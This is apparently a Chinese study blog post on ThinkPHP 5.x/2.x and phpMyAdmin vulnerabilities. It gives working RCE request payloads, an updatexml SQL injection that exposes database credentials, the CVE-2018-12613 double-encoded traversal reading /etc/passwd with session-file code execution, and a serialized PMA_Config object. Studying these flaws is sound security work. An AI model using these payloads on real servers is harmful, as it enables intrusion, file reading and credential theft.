 ```yaml
---
title: ThinkPHP & phpMyAdmin 漏洞学习
date: 2020-07-29
tags:
  - PHP
categories:
  - Web 安全
---
```


包含 ThinkPHP 5.x RCE / ThinkPHP 5.0.23 RCE / ThinkPHP 2.x RCE / ThinkPHP 5.x SQL 注入导致敏感信息泄露 / phpMyAdmin 4.8.1 远程文件包含 / phpMyAdmin 4.0.x-4.6.2 认证用户 RCE / phpMyAdmin 2.x setup.php 反序列化

<!--more-->

## ThinkPHP 5.x RCE

[参考](https://xz.aliyun.com/t/3570)

Controller 中没有过滤掉 `\`，但命名空间恰好需要用到 `\`，因此可以调用任意类的方法达到 RCE。

```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 1](1.png)

## ThinkPHP 5.0.23 RCE

[参考](https://xz.aliyun.com/t/3845)

获取 HTTP 请求类型时没有过滤，导致可以调用任意方法，参数为 POST 的数据。因此可以调用 `Request` 类的构造函数，覆盖其成员属性 `method, filter, get`，最终调用 `call_user_func` 实现 RCE。

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&get[]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&server[REQUEST_METHOD]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 2](2.png)

## ThinkPHP 2.x RCE

[参考](http://since1994.cn/?p=281)

`preg_replace` 的 `/e` 模式允许用户输入的参数被执行，造成 RCE。

```
POST /?s=1/2/3/${eval($_POST[merc])} HTTP/1.1
...

merc=printf(b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327);
```

![图 3](3.png)

> ThinkPHP 3.0 Lite 模式下同样存在漏洞。

## ThinkPHP 5.x SQL 注入导致敏感信息泄露

[参考](https://xz.aliyun.com/t/125)

PDO 查询时如果在查询条件中遇到了 `in` ，就会遍历传入数组 `ids` 的 key 和 value，而前者在预编译时并没有进行过滤，可以导致预编译结果出错。在 debug 模式开启时（默认），此时的报错会泄露数据库用户名和密码。

```
/index.php?ids[1,updatexml(1,concat(0x7e,md5(1),0x7e),1)]=1
```

![图 4](4.png)

## phpMyAdmin 4.8.1 远程文件包含 CVE-2018-12613

[参考](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

代码中存在文件包含，只需要绕过条件判断中的白名单。判断函数利用 `?` 截断 GET 参数，并且还会进行 URL 解码，因此利用二次 URL 编码 `%253f` 即可绕过白名单，同时读取任意文件。

```
/index.php?target=db_sql.php%253f/../../../../etc/passwd
```

![图 5](5.png)

随后，执行 `select <?=phpinfo()?>;`，抓包获取当前 session，随后访问 session 文件即可执行对应 php 代码：

```
/index.php?target=db_sql.php%253f/../../../../tmp/sess_1ee714d1373e5caad9faf122e9ad1798
```

![图 6](6.png)

## phpMyAdmin 4.0.x-4.6.2 认证用户 RCE CVE-2016-5734

实际影响版本：

- 4.0.x < 4.0.10.16
- 4.4.x < 4.4.15.7
- 4.6.x < 4.6.3

[参考](https://larry.ngrep.me/2016/09/21/cve-2016-5734-analysis/)

这个问题实际上是 PHP 5.4.7 的 `preg_replace` 函数的问题。当使用类似如下代码时：

```php
preg_replace('/'.$user_input.'/i', $replace, $text);
```

我们可以输入 `/e\0` 来注入 `/e` 修饰符，同时截断后面的内容来达成 RCE。

在 phpMyAdmin 中利用这个漏洞，需要知道系统的用户名密码：[exp](https://www.exploit-db.com/exploits/40185)

![图 7](7.png)

## phpMyAdmin 2.x setup.php 反序列化

[参考](https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/)

在 `/scripts/setup.php` 中没有对 `configuration` 参数进行过滤就进行了反序列化，因此可以注入一个 `PMA_Config` 对象，在构造函数中引入其成员变量 `source` 并通过 `eval` 执行。既可以读取文件，也可以通过已有文件执行代码。

以读取 `/etc/passwd` 为例：

```php
<?php
class PMA_Config {
  public $source = "/etc/passwd";
}

$data = new PMA_Config();
echo serialize($data);

?>
```

运行可以得到：

```
O:10:"PMA_Config":1:{s:6:"source";s:11:"/etc/passwd";}
```

![图 8](8.png)

之后可以进一步通过 ftp 协议写 shell。
